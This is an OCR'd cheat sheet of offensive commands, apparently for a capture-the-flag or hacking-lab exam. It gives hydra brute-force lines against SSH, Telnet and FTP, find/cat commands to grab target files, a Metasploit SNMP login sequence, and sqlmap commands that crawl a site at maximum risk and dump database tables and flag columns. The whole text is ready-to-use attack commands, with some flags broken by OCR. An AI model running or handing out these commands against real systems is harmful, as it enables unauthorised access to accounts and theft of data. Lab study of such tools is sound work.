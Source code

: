 -> hydra -L username.txt -P pass.txt -t 4 192.168.215.133 ssh 

-> hydra -vV -t 1 -w 10 -L username.txt -P pass.txt ssh://192.168.215.133 (if normal command doesnot work then these flags)- will take time 

-> hydra -vV -L username.txt -P pass.txt -t 1 -w 5 192.168.215.133 ssh 

-> find / -type f -name target.txt 2> /dev/null 

-> find / -name "secret.txt" 2>/dev/null 

-> cat <target.txt> 

Telnet: p 23 

-> hydra -l admin -P passlist.txt -o test.txt x.x.x.x telnet 
-> hydra -l admin -P /path/to/passwords.txt -V telnet://192.168.1.100

-> telnet hostname_or_ip port_number 

-> find / -type f -name target.txt 2> /dev/null 

-> find / -name "secret.txt" 2>/dev/null 

-> cat <target.txt> 

Ftp: 

-> hydra -t 1 -v -L username.txt -P pass.txt ftp://192.168.215.130 

-> find / -type f -name target.txt 2> /dev/null 

-> find / -name "secret.txt" 2>/dev/null 

-> cat <target.txt> 

SNMP:
-> snmp-check 192.168.0.108
to exploit try this way
#msfconsole
>search snmp
>use auxiliary/scanner/snmp/snmp_login
>show options
>ip a
>set RHOSTS 192.168.0.104
>show options
>exploit

SQL: 
Sqli 

-> sqlmap -u "http://192.168.44.40" --crawl=3 --level=5 --risk=3 --dbs 
-> sqlmap -u "http://192.168.44.40" --crawl=3 --level=5 --risk=3 -D database_name -
-tables
-> sqlmap -u "http://192.168.44.40" --crawl=3 --level=5 --risk=3 -D database_name -
T table_name --columns
-> sqlmap -u "http://192.168.44.40" --crawl=3 --level=5 --risk=3 -D database_name -
T table_name -C Flag --dump

